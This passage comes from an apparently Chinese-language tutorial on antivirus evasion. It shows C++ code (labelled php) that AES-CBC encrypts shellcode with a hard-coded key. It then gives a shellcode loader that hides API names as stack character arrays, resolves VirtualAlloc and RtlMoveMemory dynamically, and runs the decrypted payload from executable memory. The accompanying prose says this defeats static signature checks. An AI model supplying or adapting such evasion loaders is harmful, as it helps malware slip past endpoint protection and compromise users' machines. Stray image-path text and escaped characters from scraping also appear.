 ```php
        printf("%x", iv\[i\]);  
    }  
    printf("\\n");  
​  
​  
    unsigned char key\[\] \= { 0x01, 0x02, 0x03, 0x09, 0x04, 0x05, 0x06, 0x07, 0x08, 0x09, 0x0a, 0x0b, 0x0c, 0x0d, 0x0e, 0x0f }; //key example  
​  
    printf("KEY:");  
    for (int i \= 0; i < 16; i++) {  
        printf("%x", key\[i\]);  
    }  
    printf("\\n");  
​  
    AES aes(AESKeyLength::AES\_128);  
​  
​  
    //加密  
    //unsigned char\* cipher = aes.EncryptECB(plain, plain\_size, key);   //ecb  
    unsigned char\* cipher \= aes.EncryptCBC(plain, plain\_size, key,iv);   //cbc  
    printf("密文:");  
    for (int i \= 0; i < plain\_size; i++) {  
        printf("\\\\x%02x", cipher\[i\]);  
    }  
    printf("\\n");  
​  

}
```

这样就可以绕过杀软静态检测对 shellcode 的特征检查

### 2、对抗 shellcodeloader 和其他特征

然后我们看下 shellcodeloader：

1、就是使用常规的 VirtualAlloc 开辟 shellcode 的存储空间，然后使用 RtlMoveMemory 将解密后的 shellcode 复制到对应空间；最后将空间开头地址强传函数指针执行即可；

2、我们采用动态加载的形式加载 shellcodeloader 需要的函数

3、过程中出现的字符串，我们都通过栈来存储；不要出现在数据段

大致代码逻辑如下：

```php
函数定义： 
typedef LPVOID(\*MyVirtualAlloc)(LPVOID lpAddress,SIZE\_T dwSize,DWORD  flAllocationType,DWORD  flProtect);  
typedef LPVOID(\*MyRtlMoveMemory)(VOID UNALIGNED\* Destination,const VOID UNALIGNED\* Source,SIZE\_T  Length);  
​  
​  
​  
代码实现：  
cipher\[\] \= "shellcode加密之后的密文";  
char a\[\] \= { 'k','e','r','n','e','l','3','2','.','d','l','l','\\0'};  
char b\[\] \= { 'V','i','r','t','u','a','l','A','l','l','o','c','\\0' };  
char c\[\] \= { 'N','t','d','l','l','.','d','l','l','\\0' };  
char d\[\] \= { 'R','t','l','M','o','v','e','M','e','m','o','r','y','\\0' };  
unsigned char\* res\_plain \= aes.DecryptCBC(cipher, cipher\_size, key, iv);//解密  
MyVirtualAlloc myVa \= (MyVirtualAlloc)GetProcAddress(GetModuleHandle(a), b);  
MyRtlMoveMemory myMov \= (MyRtlMoveMemory)GetProcAddress(GetModuleHandle(c), d);  
LPVOID mem \= myVa(NULL, cipher\_size + 1, MEM\_COMMIT, PAGE\_EXECUTE\_READWRITE);  
myMov(mem, res\_plain, cipher\_size);  
((void(\*)())mem)();
```